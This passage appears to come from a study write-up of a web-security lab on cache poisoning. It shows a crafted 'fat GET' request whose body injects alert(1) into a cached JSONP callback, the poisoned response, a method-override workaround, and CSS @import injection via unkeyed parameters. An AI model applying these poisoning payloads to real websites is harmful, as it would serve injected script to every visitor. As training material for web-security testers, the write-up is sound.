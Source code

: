 ```bash
setCountryCookie({"country":"United Kingdom"});
```

So we craft a malicious request with a req body in the GET req:
```bash
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a69001303f537fb834e709600a0004b.web-security-academy.net
Cookie: session=2pghLrQVvRDlVCoXVl2e6r4JTpjG75C9; country=[object Object]
...

callback=alert(1)
```

And in the response we see:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 3
X-Cache: hit
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

**Important**:
This is only possible if a website accepts GET requests that have a body, but there are potential workarounds. You can sometimes encourage "fat GET" handling by overriding the HTTP method, for example:
```bash
GET /?param=innocent HTTP/1.1
Host: innocent-website.com
X-HTTP-Method-Override: POST
…
param=bad-stuff-here
```

As long as the X-HTTP-Method-Override header is unkeyed, you could submit a pseudo-POST request while preserving a GET cache key derived from the request line. 

### Exploiting dynamic content in resource imports
Imported resource files are typically static but some reflect input from the query string. This is mostly considered harmless because browsers rarely execute these files when viewed directly, and an attacker has no control over the URLs used to load a page's subresources. However, by combining this with web cache poisoning, you can occasionally inject content into the resource file.

For example, consider a page that reflects the current query string in an import statement:
```bash
GET /style.css?excluded_param=123);@import… HTTP/1.1

HTTP/1.1 200 OK
…
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
